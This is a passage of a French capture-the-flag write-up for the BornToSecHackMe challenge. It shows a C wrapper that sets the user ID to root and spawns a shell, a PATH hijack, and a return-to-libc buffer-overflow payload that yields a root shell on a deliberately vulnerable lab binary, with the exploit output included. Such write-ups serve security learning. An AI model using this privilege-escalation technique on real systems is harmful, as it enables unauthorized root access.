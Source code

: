 J'ai d'abord compilé ce programme sous le nom `4` :

```c
#include <unistd.h>
#include <stdlib.h>

int main(void) {
  setreuid(0, 0);
  setregid(0, 0);
  system("/bin/bash");
  return 0;
}
```

J'ajoute le dossier courant dans le path et on exploite :

```shellsession
zaz@BornToSecHackMe:~$ export PATH=.:$PATH
zaz@BornToSecHackMe:~$ ./exploit_me `python -c 'print "A"*140 + "\x60\xb0\xe6\xb7\x28\x90\x04\x08\x28\x90\x04\x08"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`���((�
root@BornToSecHackMe:~# id
uid=0(root) gid=0(root) groups=0(root),1005(zaz)
root@BornToSecHackMe:~# cat /root/README
CONGRATULATIONS !!!!
To be continued...
```

Après les 140 caractères se trouvent l'adresse de `system()` (qui écrase l'adresse de retour), du junk puis l'adresse de notre chaine.

## Et voilà

C'était très intéressant de pouvoir utiliser `angr` :) Le CTF est plutôt bien lui aussi mais les indications manquantes, les erratas et les solutions multiples laissent à désirer.
